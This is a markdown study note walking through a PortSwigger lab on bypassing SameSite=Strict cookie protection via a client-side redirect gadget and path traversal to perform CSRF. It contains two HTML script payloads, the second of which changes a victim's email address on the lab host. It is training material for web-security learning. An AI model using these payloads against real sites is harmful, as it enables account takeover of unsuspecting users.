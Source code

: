 ```yaml
---
tags:
  - PRACTITIONER
  - Strict
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect
---
```


# `SameSite` Strict bypass via client-side redirect
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - satisfied

- **`SameSite` Strict bypass**
	1. **Study the change email function**
		-  Doesn't contain any unpredictable tokens
		- The website explicitly specifies `SameSite=Strict` when setting session cookies
	2. **Identify a suitable gadget**
		- Redirection in the post comment functionality.
		- Study the `js` file.
		- Inject a path traversal.
	3. Bypass the `SameSite` restrictions
		```html
		<script>
			document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account";
		</script>
		```
	4. Craft an exploit
		```html
		<script>
		
			document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
		
		</script>
		```

